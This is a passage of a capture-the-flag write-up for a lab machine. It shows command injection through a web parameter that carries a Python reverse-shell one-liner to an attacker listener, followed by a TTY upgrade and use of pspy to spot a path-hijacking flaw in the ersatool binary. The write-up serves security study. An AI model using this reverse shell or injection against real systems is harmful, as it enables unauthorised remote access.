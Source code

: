 Now that I can monitor the processes with `pspy`, I will need to get another **Reverse Shell** from the **PKI** server, since in one shell I will launch `pspy` and in the other I will run the `ersatool` binary. Once I launch the program and choose the create option I notice a variety of processes that it uses, and the most striking thing is that it is using relative and not absolute paths, which makes it vulnerable to **Path Hijacking**.

> **Attacker Machine**:

```bash
ssh -i id_rsa www-data@10.10.10.246 -p 2222
```

> **Web Host**:

```bash
./nc -nlvp 4646
```

> **Attacker Machine**:

```bash
curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.254.2\",4646));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" | awk "/' - /,/: cannot open/" | sed "s/' - //" | grep -v 'cannot open'
```

> **PKI Host**:

```bash
script /dev/null -c bash        # [Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm

chmod +x pspy
./pspy

/usr/bin/ersatool
  > create
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_100.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_101.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_102.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_103.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_104.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
